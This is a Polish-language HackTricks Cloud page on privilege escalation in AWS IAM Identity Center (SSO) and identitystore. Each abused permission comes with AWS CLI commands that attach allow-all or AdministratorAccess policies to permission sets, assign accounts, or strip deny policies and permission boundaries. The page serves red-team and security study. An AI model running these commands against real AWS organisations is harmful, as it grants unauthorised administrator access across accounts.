 # AWS - SSO & identitystore Privesc

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Centrum tożsamości AWS / AWS SSO

Aby uzyskać więcej informacji na temat Centrum tożsamości AWS / AWS SSO, sprawdź:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Zauważ, że **domyślnie** tylko **użytkownicy** z uprawnieniami **z Konta Zarządzającego** będą mogli uzyskać dostęp i **kontrolować Centrum Tożsamości IAM**.\
Użytkownicy z innych kont mogą to zrobić tylko jeśli konto jest **Administrator Delegowany.**\
[Sprawdź dokumentację, aby uzyskać więcej informacji.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Zresetuj hasło~~

Łatwym sposobem eskalacji uprawnień w przypadkach takich jak ten byłoby posiadanie uprawnienia umożliwiającego zresetowanie hasła użytkowników. Niestety możliwe jest tylko wysłanie e-maila do użytkownika w celu zresetowania hasła, dlatego potrzebny jest dostęp do skrzynki e-mail użytkownika.

### `identitystore:CreateGroupMembership`

Dzięki temu uprawnieniu możliwe jest umieszczenie użytkownika w grupie, dzięki czemu odziedziczy on wszystkie uprawnienia przypisane do grupy.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Atakujący posiadający te uprawnienia mógłby nadać dodatkowe uprawnienia do zestawu uprawnień, który jest przyznany użytkownikowi pod jego kontrolą

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Atakujący posiadający te uprawnienia mógłby nadać dodatkowe uprawnienia do zestawu uprawnień, który jest nadany użytkownikowi pod jego kontrolą.
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Atakujący posiadający te uprawnienia mógłby nadać dodatkowe uprawnienia do zestawu uprawnień, który jest nadany użytkownikowi pod jego kontrolą.

{% hint style="warning" %}
Aby wykorzystać te uprawnienia w tym przypadku, musisz znać **nazwę zarządzanej przez klienta polityki, która znajduje się WE WSZYSTKICH kontach**, które zostaną dotknięte.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Atakujący posiadający to uprawnienie mógłby przypisać zestaw uprawnień do użytkownika pod swoją kontrolą do konta.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Zwraca krótkoterminowe poświadczenia STS dla określonej nazwy roli przypisanej do użytkownika.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Jednak potrzebujesz tokenu dostępu, którego nie jestem pewien, jak go uzyskać (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Atakujący posiadający to uprawnienie może usunąć powiązanie między zarządzaną polityką AWS a określonym zestawem uprawnień. Istnieje możliwość przyznania większych uprawnień poprzez **odłączenie zarządzanej polityki (polityka odmowy)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Atakujący posiadający to uprawnienie może usunąć powiązanie między zarządzaną przez klienta polityką a określonym zestawem uprawnień. Istnieje możliwość przyznania większych uprawnień poprzez **odłączenie zarządzanej polityki (polityka odmowy)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
### `sso:DeleteInlinePolicyFromPermissionSet`

Atakujący posiadający to uprawnienie może usunąć uprawnienia z wewnętrznej polityki z zestawu uprawnień. Istnieje możliwość przyznania **więcej uprawnień poprzez odczepienie wewnętrznej polityki (polityka odmowy)**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Atakujący posiadający tę uprawnienie może usunąć Granicę Uprawnień z zestawu uprawnień. Istnieje możliwość przyznania **więcej uprawnień poprzez usunięcie ograniczeń na Zestawie Uprawnień** nadanych z Granicy Uprawnień.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF** sprawdź [**PLAN SUBSKRYPCYJNY**](https://github.com/sponsors/carlospolop)!
* Kup [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**Grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
